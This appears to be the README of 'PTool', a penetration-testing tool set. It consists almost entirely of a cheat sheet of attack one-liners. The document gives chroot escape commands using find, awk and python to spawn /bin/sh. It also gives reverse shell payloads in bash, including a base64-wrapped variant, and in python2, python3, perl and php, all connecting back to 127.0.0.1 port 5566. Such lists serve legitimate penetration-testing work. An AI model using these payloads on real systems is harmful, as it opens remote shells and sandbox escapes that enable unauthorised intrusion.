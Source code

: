 # PTool #
The [penetration test][0] tool set.

## Cheat Sheet ##

### chroot escape ###

| binary | script                                      |
|========|=============================================|
| find   | find -exec '/bin/sh'                        |
|--------|---------------------------------------------|
| awk    | awk 'BEGIN {system("/bin/sh")}'             |
|--------|---------------------------------------------|
| python | python -c 'import os; os.system("/bin/sh")' |

### reversed shell ###

| language | shell                                                                           |
|==========|=================================================================================|
| bash     | bash -i >& /dev/tcp/127.0.0.1/5566 0>&1                                         |
|----------|---------------------------------------------------------------------------------|
| bash     | echo -n "/bin/sh -i >& /dev/tcp/127.0.0.1/5566 0>&1" | base64 | base64 -d | sh  |
|----------|---------------------------------------------------------------------------------|
| python2  | import socket, os;                                                              |
|----------|---------------------------------------------------------------------------------|
|          | sk = socket.create_connection(("127.0.0.1", 5566));                             |
|          | fd = sk.fileno();                                                               |
|          | os.popen("bash -i <&{0} >&{0} 2>&{0}".format(fd));                              |
|----------|---------------------------------------------------------------------------------|
| python3  | import socket, os, subprocess;                                                  |
|          | sk = socket.create_connection(("127.0.0.1", 5566));                             |
|          | fd = sk.fileno();                                                               |
|          | subprocess.Popen(["/bin/sh", "-c", f"/bin/sh -i <{fd} >&{fd} 2>&{fd}"]);        |
|----------|---------------------------------------------------------------------------------|
| perl     | use Socket;                                                                     |
|          | socket(s, AF_INET, SOCK_STREAM, 0);                                             |
|          | connect(s, pack_sockaddr_in(5566, inet_aton("127.0.0.1"))) or die;              |
|          | open(STDIN, ">&s"); open(STDOUT, ">&s"); open(STDERR, ">&s");                   |
|          | exec("/bin/sh -i");                                                             |
|----------|---------------------------------------------------------------------------------|
| php      | <?php $sk = fsockopen("127.0.0.1", 5566); exec("/bin/bash -i <&3 >&3 2>&3"); ?> |


[0]: https://en.wikipedia.org/wiki/Penetration_test
